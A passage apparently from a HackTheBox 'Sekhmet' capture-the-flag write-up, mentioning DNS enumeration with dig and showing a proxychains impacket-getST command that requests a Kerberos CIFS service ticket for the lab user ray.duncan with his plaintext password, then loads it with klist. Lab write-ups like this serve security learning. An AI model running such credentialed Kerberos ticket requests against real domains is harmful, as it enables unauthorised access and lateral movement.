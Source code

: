 <img src="https://raw.githubusercontent.com/Mostafatoumi/Mostafatoumi.github.io/main/assets/img/favicons/HackTheBox/Sekhmet/31.png"  >

Let's begin by enumerating the domain properly. My initial observation was the open port 53 for DNS in the output. We can utilize 'dig' to discover more information.

## Silver Ticket and SMB Shares
With the credentials for ray.duncan, we can actually request a ticket for him. This can be done using impacket-getST.

```bash
proxychains impacket-getST -dc-ip 192.168.0.2 -spn cifs/hope.windcorp.htb 'windcorp/ray.duncan:pantera'

export KRB5CCNAME=ray.duncan.ccache

klist #to display the Ticket cache
```
<img src="https://raw.githubusercontent.com/Mostafatoumi/Mostafatoumi.github.io/main/assets/img/favicons/HackTheBox/Sekhmet/32.png"  >
